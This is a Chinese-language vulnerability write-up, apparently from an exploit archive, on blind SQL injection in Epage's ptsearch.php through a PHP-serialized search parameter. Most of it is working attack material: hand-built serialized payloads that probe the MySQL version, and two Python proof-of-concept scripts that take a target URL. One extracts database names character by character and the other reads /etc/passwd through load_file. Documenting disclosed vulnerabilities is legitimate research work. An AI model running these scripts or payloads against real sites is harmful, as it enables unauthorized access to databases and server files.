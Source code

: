 Epage sql 注入漏洞
==================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

将单引号用来站内搜寻时发现不可注入，正准备放弃时发现搜索结果的第N页的连结中使用了php序列刚好最近学到php序列不安全，未检查的情况下unserialize后会造成许多问题，甚至RCE看了一下序列的长相是否有机可称：

    wc=a:3:{s:3:"Key";s:4:"test";s:8:"pagesize";s:2:"10";s:3:"Rcg";i:0;}

嗯，是一个序列化过的array，里面的key竟然是我刚才的输入！？试试注入单引号，失败，准备放弃QQ我的输入会显示出来\...\...，那试试XSS好了蛤，报错！？原来没有过滤双引号啊而且还回显了完整的sql语句开始闭合语句

透过构造

    a:3:{s:3:"Key";s:42:""and(substring(version(),1,1)="5")and"%"="";s:8:"pagesize";s:2:"10";s:3:"Rcg";i:0;}

查无资料

透过构造

    a:3:{s:3:"Key";s:42:""and(substring(version(),1,1)="5")and"%"="";s:8:"pagesize";s:2:"10";s:3:"Rcg";i:0;}

显示查询，以此类推

透过构造

    a:3:{s:3:"Key";s:42:""and(substring(version(),3,1)="0")and"%"="";s:8:"pagesize";s:2:"10";s:3:"Rcg";i:0;}

显示查询

透过构造

    a:3:{s:3:"Key";s:42:""and(substring(version(),5,1)="8")and"%"="";s:8:"pagesize";s:2:"10";s:3:"Rcg";i:0;}

显示查询

证明存在Boolean Based Blind Injection漏洞，mysql版本为5.0.8

### poc1 retrive database

> 可通过poc解析server上的database名称与版本> 同理也可以进一步dump出每个栏位的资料

此外网站也有权限可以load\_file（outfile试不出来，可能是没权限或我太菜了QQ）

    import requests
    import time

    print("Blind SQL injection in php Serialize POC")
    url=input("Target url:")
    url += "/bin/ptsearch.php?wc=a:3:{s:3:\"Key\";s:@:\"*\";s:8:\"pagesize\";s:2:\"10\";s:3:\"Rcg\";i:0;}"

    print("start parsing")
    print("")
    print("MYSQL version:")
    for i in range(1,10,2):
    for k in range(0,10):
    session = requests.Session()
    closed_sql='\"and({inject})and\"%\"=\"'
    inject_sql= closed_sql.format(inject="substring(version(),{i},1)=\"{k}\"")
    inject_sql= inject_sql.format(i=i,k=k)
    inject_url=url.replace("@",str(len(inject_sql)))
    inject_url=inject_url.replace("*",inject_sql)
    r = session.get(inject_url)
    r.encoding = 'utf-8'

        if("未找到符合條件的資料" not in r.text):
            print(k,end=".")
    print("version detect complete,take a break...........")
    print()
    print()
    time.sleep(5)

    print("parsing lenth of available database..............")
    all_valid_database=0
    for i in range(1,50):
    session = requests.Session()
    closed_sql='\"and({inject})and\"%\"=\"'
    inject_sql= closed_sql.format(inject="(ascii(substring((select(group_concat(schema_name))from(information_schema.schemata)),{i},1)))>0")
    inject_sql= inject_sql.format(i=i)
    inject_url=url.replace("@",str(len(inject_sql)))
    inject_url=inject_url.replace("*",inject_sql)
    r = session.get(inject_url)
    r.encoding = 'utf-8'
    if("未找到符合條件的資料" in r.text):
    all_valid_database = i
    print(all_valid_database)
    break

    print("parsing finish,take a break")
    time.sleep(3)

    print("start parsing available database")
    print("available database:")
    for i in range(1,all_valid_database):
    time.sleep(2)
    for k in range(32,126):
    session = requests.Session()
    closed_sql='\"and({inject})and\"%\"=\"'
    inject_sql= closed_sql.format(inject="(ascii(substring((select(group_concat(schema_name))from(information_schema.schemata)),{i},1)))>{k}")
    inject_sql= inject_sql.format(i=i,k=k)
    inject_url=url.replace("@",str(len(inject_sql)))
    inject_url=inject_url.replace("*",inject_sql)
    r = session.get(inject_url)
    r.encoding = 'utf-8'

        if("未找到符合條件的資料" in r.text):
            if (k==44):
                print(chr(k),end="")
                print()
            else:
                print(chr(k),end="")
            break

### poc2 load etc/passwd

    import requests
    import time

    print("Blind SQL injection in php Serialize POC")
    url=input("Target url:")
    url += "/bin/ptsearch.php?wc=a:3:{s:3:\"Key\";s:@:\"*\";s:8:\"pagesize\";s:2:\"10\";s:3:\"Rcg\";i:0;}"

    print("start parsing")
    print("")

    all_valid_database=1436#如上一個poc的找法，但這次手動二分搜尋法xd，怕用程式跑，太密集會被server擋掉

    print("start parsing available file")
    print("etc/passwd:")
    for i in range(1,all_valid_database):
    time.sleep(2)
    for k in range(32,126):
    session = requests.Session()
    closed_sql='\"and({inject})and\"%\"=\"'
    inject_sql= closed_sql.format(inject="(ascii(substring((select(load_file(\"/etc/passwd\"))),{i},1)))>{k}")
    inject_sql= inject_sql.format(i=i,k=k)
    inject_url=url.replace("@",str(len(inject_sql)))
    inject_url=inject_url.replace("*",inject_sql)
    r = session.get(inject_url)
    r.encoding = 'utf-8'
    if("未找到符合條件的資料" in r.text):
    print(chr(k),end="")
    break

1.png

2.png

3.png

参考链接
--------

> https://zeroday.hitcon.org/vulnerability/ZD-2020-00601
